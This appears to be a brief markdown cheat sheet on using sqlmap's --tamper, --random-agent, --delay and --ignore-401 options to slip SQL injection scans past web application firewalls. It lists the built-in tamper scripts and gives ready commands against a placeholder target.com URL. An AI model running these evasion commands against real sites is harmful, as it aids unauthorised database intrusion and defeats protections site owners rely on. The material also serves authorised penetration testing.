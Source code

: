 ## Sqlmap waf tricks 

## SQLmap has options to bypass firewalls and WAF (Web Application Firewalls):

   ### --tamper option allows you to apply tamper scripts to bypass filters and WAFs.
   ### --random-agent option uses a randomly selected user-agent to make each request to bypass fingerprinting-based WAFs.
   ### --delay option allows you to introduce a delay between requests to bypass rate-limiting rules in WAFs.
   ### --ignore-401 option tells sqlmap to continue scanning even if a 401 error code is returned, which could be triggered by a WAF.

## Bypassing firewall and WAF with `--tamper` option: 
``
sqlmap -u "http://target.com/vuln.php?id=1" --tamper=space2comment,randomcase
``
## Here is a list of built-in tamper scripts in sqlmap:
``
    apostrophemask
    apostrophenullencode
    base64encode
    between
    bluecoat
    chardoubleencode
    charencode
    charunicodeencode
    concat2concatws
    equaltolike
    greatest
    halfversionedmorekeywords
    ifnull2ifisnull
    multiplespaces
    nonrecursivereplacement
    percentage
    randomcase
    randomcomments
    securesphere
    space2comment
    space2dash
    space2hash
    space2morehash
    space2mssqlblank
    space2mysqldash
    space2plus
    space2randomblank
    unionalltounion
    unmagicquotes
    ``

### Note: The --tamper option can also be used with custom scripts that you have written yourself.


##    Bypassing fingerprinting-based WAFs with --random-agent option:

``
sqlmap -u "http://target.com/vuln.php?id=1" --random-agent
``

## Bypassing rate-limiting rules in WAFs with --delay option:

``
sqlmap -u "http://target.com/vuln.php?id=1" --delay=2
``
##    Combining multiple options:
``
sqlmap -u "http://target.com/vuln.php?id=1" --tamper=space2comment --random-agent --delay=2 --ignore-401
``
